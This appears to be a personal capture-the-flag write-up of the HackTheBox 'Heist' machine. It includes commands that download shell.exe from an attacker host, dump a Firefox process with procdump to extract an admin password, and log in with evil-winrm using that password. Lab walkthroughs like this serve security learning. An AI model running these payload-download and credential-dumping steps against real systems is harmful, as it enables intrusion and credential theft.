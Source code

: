 IWR -Uri http://10.10.16.173/shell.exe -OutFile shell.exe

shell gained on msfconsole

running suggester on the session

None of the suggester exploits worked….

Checking Program Files for anything

I noticed Firefox is installed. I recall from genesis that there is a way to pull passwords from here using laZagne.py

.\LaZagne.exe all

It didnt work :((((((((((((((((((((((( 😢

I got stuck here so I looked at a write up 😟

https://sevenlayers.com/index.php/272-hackthebox-heist-walkthrough

0xdf was also helpful here

https://0xdf.gitlab.io/2019/11/30/htb-heist.html

A tool called procdump can be used to dump the process running firefox, download it to our machine, and then run strings on it to find the admins password.

https://live.sysinternals.com/procdump64.exe

run it on one of the pid for firefox

- get-process firefox
    
    Handles  NPM(K)    PM(K)      WS(K)     CPU(s)     Id  SI ProcessName
    
    ---
    
    1083      71   152076     230824       7.17   6292   1 firefox
    
    347      19    10248      35480       0.09   6404   1 firefox
    
    401      34    34240      93408       1.25   6592   1 firefox
    
    378      28    22412      59204       0.42   6784   1 firefox
    
    355      25    16400      38884       0.16   7044   1 firefox
    

**.**\procdump64 -ma 6252 -accepteula

I then searched the dump file for password and found

admin 4dD!5}x/re8]FBuZ

ruby evil-winrm.rb -i 10.129.96.157 -u administrator -p '4dD!5}x/re8]FBuZ’

rooted

## Post-exploitation

None
